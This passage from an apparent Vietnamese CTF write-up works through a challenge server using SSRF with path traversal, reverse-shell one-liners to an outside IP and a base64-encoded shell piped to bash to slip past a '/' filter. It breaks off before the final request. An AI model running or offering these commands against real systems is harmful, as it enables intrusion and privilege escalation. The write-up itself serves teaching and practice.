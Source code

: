 - Đến đây thì mình đã nhận ra, hàm `download_script()`, vậy sẽ ra sao nếu mình truyền vào `url` trong JSON là `http://localhost:8888/getData?f=/fus/data/../logs/log.txt` (nên lưu ý `localhost` ở đây là local của server :> ), thì có phải `download_script()` sẽ lấy nội dung của `log.txt` để đưa vào `script_path`?

- Như vậy mình tạo JSON mới và lệnh `curl` mới như sau:

    ```json
    {
        "dir" : "test",
        "name" : "ls.sh",
        "command_log" : "lssh",
        "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls.sh", "command_log" : "lssh", "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"}'
    ```

- Và gửi đi, giờ chỉ cần mở file `lssh.txt` bằng path traversal và thu được kết quả:

    ![curl_2](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_6.png)

    ![lssh.txt](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_7.png)

- Vậy là chính xác rồi, nhưng có một vấn đề là ta cần tìm đến `/root` để mở file `secret_service`, và tất nhiên là phải root thì mới có thể làm được điều đó (mình đã thử rồi)

- Mụ mẫm cả đầu thì anh T giấu tên và anh Khoa (tác giả) đã gợi ý về `reverse shell`

- Vậy bây giờ chỉ cần dùng cách trên, tạo một file chạy một đoạn reverse shell và chúng ta sẽ chiếm quyền thông qua SUID (hint từ tác giả) là xong

- Nhưng, mình đã thử và nhận ra, tất cả những command mà chứa dấu '/' thì lỗi 500 là rõ, như ở dưới mình để `name` trong JSON là `\nls ../root\n`:

    ![500](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_8.png)

- Vậy là mình cần cách khác, nhưng trước tiên, phải chuẩn bị cái reverse shell đã :D

    ```shell
    sh -i >& /dev/tcp/34.92.153.161/8899 0>&1
    ```

- Có cả revshell của `bash`, `nc`, ..., tìm hiểu tại [đây](https://www.revshells.com/)

- Vẫn là tác giả đã gợi ý cho mình một cách để đẩy được revshell kia lên, sử dụng `base64`, chuyển đoạn shell ở trên thành `base64` encode, và đưa về dạng sau:

    ```shell
    echo "c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjEK" | base64 -d | bash
    ```

- Vậy là xong, giờ cần chuẩn bị request đầu tiên (hãy nhớ escape string :v):
